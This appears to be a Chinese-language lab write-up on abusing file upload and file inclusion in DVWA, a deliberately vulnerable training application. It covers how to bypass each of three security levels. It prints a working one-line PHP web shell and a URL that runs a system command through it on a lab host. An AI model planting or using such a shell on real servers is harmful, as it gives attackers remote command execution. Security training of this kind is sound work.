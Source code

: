 #### 实验一

##### 1.1 恶意使用文件包含和上传

初安全级别的代码

- 代码特点：不进行类型检查
- 渗透方法：可以直接上传木马文件

中安全级别的级代码

- 代码特点：会判断文件MIME类型（content-type）和文件大小

`$uploaded_type == "image/jpeg"`

- 渗透方法：通过代理/拦截的办法先把木马文件修改为允许上传的类型，然后再forward给DVWA

高安全级别的代码

- 代码特点：会判断文件后缀和文件大小
- 渗透方法：采用文件包含的形式，把木马文件嵌入到允许上传类型的文件中，然后再执行生成代码生成木马文件。

1.初级安全级别

直接上传`webshell.php`

```php
<? 
system($_GET['cmd']); 
echo '<form method="post" action="../../hackable/uploads/webshell.php"><input type="text" name="cmd"/></form>'; 
?>
```

通过地址栏访问`http://192.168.52.131/dvwa/hackable/uploads/webshell.php?cmd=/sbin/ifconfig` 得到`/sbin/ifconfig`命令结果。实现可以通过地址栏输入命令行并成功执行的结果。

![image-20220409145119642](/img/security/image-20220409145119642.png)
